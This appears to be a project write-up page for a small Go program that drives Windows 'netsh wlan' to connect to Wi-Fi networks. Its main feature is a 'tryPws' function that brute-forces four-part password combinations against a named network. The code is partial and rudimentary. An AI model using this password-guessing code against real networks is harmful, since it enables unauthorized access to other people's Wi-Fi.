 ```yaml
---
title: "Golang Networking"
description: "Golang functions to connect and disconnect from networks"
link: ""
github: "https://github.com/NikSchaefer/netsh/blob/master/main.go"
tags: "Golang, OS"
---
```


# Golang Netsh

## Motivation

This project was inspired by the netsh package as well as to learn Golang.

## Networking

The networking works by creating a profile xml file and attepting to connect
with the correct password.

### Initalize

This function is it Initalize the project for other operations by creating the
xml file based off of the provided file inside the project. The function copies
the file content and writes it to a new file.

```go
func initalize(name string) error {
	data, err := ioutil.ReadFile("template.xml")
	must(err)
	str := string(data)
	str = strings.Replace(str, "{SSID}", name, 2)

	f, err := os.Create("profile.xml")
	must(err)
	f.Write([]byte(str))
	f.Close()
	return nil
}
```

### Close

The close function simply cleans the workspace by deleting the initalized file

```go
func close() error {
	err := os.Remove("profile.xml")
	must(err)
	return err
}
```

### CreateFileProfile

The function createFileProfile works by creating a file profile filled with the
provided password.

```go
func createFileProfile(name, pass, prev string) {
	data, err := ioutil.ReadFile("profile.xml")
	must(err)
	str := string(data)
	str = strings.Replace(str, prev, pass, 1)
	os.WriteFile("profile.xml", []byte(str), 0644)
}
```

### Connect to network

The connectToNetwork function works to make a connection attept to the provided
network.

```go
func connectToNetwork(name string) bool {
	str := fmt.Sprintf("name=%s", name)
	out, err := exec.Command("netsh", "wlan", "connect", str).Output()
	must(err)
	fmt.Print(string(out))
	return false
}
```

### TryPws

Function that will try all possible passwords to a specified network and return
the found password.

```go
func tryPws(name string) (string, bool) {
	initalize(name)
	previous := "{password}"
	for i := 0; i < len(arr); i++ {
		for j := 0; j < len(arr); j++ {
			for ii := 0; ii < len(arr); ii++ {
				for jj := 0; jj < len(arr); jj++ {
					pw := arr[i] + arr[j] + arr[ii] + arr[jj]
					if tryConnection(name, pw, previous) {
						close()
						return pw, true
					}
					previous = pw
				}
			}
		}
	}
	close()
	return "", false
}
```
